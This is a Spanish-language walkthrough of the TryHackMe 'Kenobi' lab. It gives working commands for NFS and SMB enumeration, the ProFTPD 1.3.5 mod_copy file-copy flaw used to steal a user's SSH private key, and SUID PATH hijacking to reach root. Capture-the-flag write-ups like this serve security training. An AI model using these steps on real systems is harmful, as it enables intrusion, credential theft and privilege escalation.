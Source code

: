 ```yaml
---
title: Kenobi
description: Write Up de Kenobi TryHackMe
published: true
date: 2025-05-12T15:30:47.552Z
tags: write up
editor: markdown
dateCreated: 2025-05-06T15:51:34.674Z
---
```


# Kenobi
Bienvenido a la máquina Kenobi, hecha en GitHub.

## Exploración
Lo primero que vamos a hacer es un escaneo de puertos para saber que servicios tiene disponibles.
10.10.218.69
```
nmap -sT -Pn -sV {IP}
```

![Escaneo de puertos](/imagenes/kenobi_1.png)

Como podemos observar tenemos:
- Un servicio FTP
- Un servicio SSH
- Un servicio HTTP
- Servicio de Samba
- Puero 2049

Lo más interesante que podemos observar, es la página web, el servidor ftp y el puerto 2049. Teniendo el puerto 2049, con un NFS, podemos intentar montar el disco que hay disponible.

Para ello deberemos saber que puerto hay disponible, eso lo hacemos mediante:
```
showmount -e {IP}
```

Una vez que vamos a importar, creamos una carpeta similar y lo montamos:
```
mkdir -p tmp/var
sudo mount -t nfs {IP}:/var tmp/var
```

![Conexión con el NFS](/imagenes/kenobi_2.png)

Ahora entramos en la carpeta y listamos lo que hay


![Listado de lo que podemos ver](/imagenes/kenobi_3.png)

Investigaremos esto en profundidad mas adelante, vamos a intentar conectarnos como anonymous en el servidor FTP

![Intento FTP](/imagenes/kenobi_4.png)

Sin embargo, podemos observar que no hemos puesto la credecial correcta. 

Vamos a investigar con respecto a la página web.

![No funcional](/imagenes/kenobi_5.png)

Solo tenemos una imagen, por lo que investigaremos el último servicio que nos queda que es samba.

Vamos a ejecutar el siguiente comando:
```
smbclient -L //{IP} -N
```

Con este comando vamos a ejecutar una lectura principal de usuarios y servicios activos, donde podemos ver que hay una cuenta llamada anonymous 

![Cliente de samba](/imagenes/kenobi_6.png)

Ahora vamos a intentar conectarnos como ese usuario:
```
smbclient //{IP}/anonymous
```
Nos pedirá una contraseña, sin embargo está vez si que nos permite el acceso con las credenciales predeterminadas (anonymous/anonymous).

Haremos una lectura de los archivos con un ls, y nos descargaremos el fichero que haya.

```
ls
get log.txt
```

![Conectarse y obtención de claves](/imagenes/kenobi_7.png)

Una vez descargado, vamos a leer el log, que parece ser todos los logs, tanto de samba, como de FTP y SSH.

![Lectura de logs](/imagenes/kenobi_8.png)

De este archivo no tenemos mucha mas información importante, sin embargo podriamos intentar hacer un exploit de ftp, ya que sabemos que usa proftpd y con el escaneo de nmap, podemos descubirr que es versión 1.3.5

![Explotación de ftp](/imagenes/kenobi_9.png)

Ahora vamos a hacer lo siguiente
```
nc {IP} 21
```

Con esto nos conectamos al seridor FTP, sin embargo por esta versión hay una vulnerabilidad de copia de archivos sin estar verificado, por lo que podemos continuar con:
```
site CPFR /home/kenobi/.ssh/id_rsa
site CPTO {lugar donde dejamos el archiv}
```

![Obtención de archivo id](/imagenes/kenobi_10.png)

> Tener en cuenta el directorio donde estamos
{.is-warning}


Debido a que ya tenemos el rsa, podemos conectarnos.

## Explotación
Vamos a modificar el archivo para que solo posea permisos de lectura, ya que de otra manera el archivo se identificará como peligroso.
```
chmod 600 id_rsa
```

Para conectarnos de forma remota, vamos a poner el siguiente comando:
```
ssh -i {Ubicación del fichero} kenobi@{IP}
```

![Conectarse al usuario](/imagenes/kenobi_11.png)

No podemos securizar la shell ya que para ello necesitamos administrador.


Sin embargo podemos obtener la primera flag 
![Lectura de flag](/imagenes/kenobi_12.png)

## Escalada

Ahora vamos a intentar escalar privilegios, para ello vamos el siguiente comando:
```
find / -perm -u=s 2>/dev/null
```

De todo el listado, nos llama la atención uno llamado "menu", este binario no es comun en Linux
![Investigar binarios](/imagenes/kenobi_13.png)

Cuando lo ejecutamos, parece ser que salé un pequeño menu en el que podemos comprobar versiones, mirar la versión del kernel y mirar la configuración de red.

![Ejecución de binario](/imagenes/kenobi_14.png)

Podemos intentar analizar el binario de la siguiente manera:
```
strings /usr/bin/menu
```

![Lectura del binario](/imagenes/kenobi_15.png)

Analizando el binario, parece que ejecuta los comandos sin una ruta absoluta definida. Por lo tanto será vulnerable a path hijacking, esto lo ahcemos modificando nuestro $PATH.

Comprobamos nuestro $PATH con
```
echo $PATH
```

![Lectura del path](/imagenes/kenobi_16.png)

Para la modificación, podemos copiar un binario como puede ser /bin/sh, y llamarlo ifconfig, tras esto modificaremos nuestro PATH y así podremos hacer engañar el sistema.

```
cd /tmp
echo "/bin/bash" > ifconfig
chmod +x ifconfig
PATH=/tmp:$PATH
```

![Preparación de exploit](/imagenes/kenobi_17.png)

Ahora simplemente deberemos ejecutar de nuevo el script, pero esta vez indicamos la tercera opción que es la correspondiente a el ifconfig.

![Ejecución del exploit](/imagenes/kenobi_18.png)

Ya somos root, ahora podemos ir al directorio home y obtener la ultima flag.
![Flag](/imagenes/kenobi_19.png)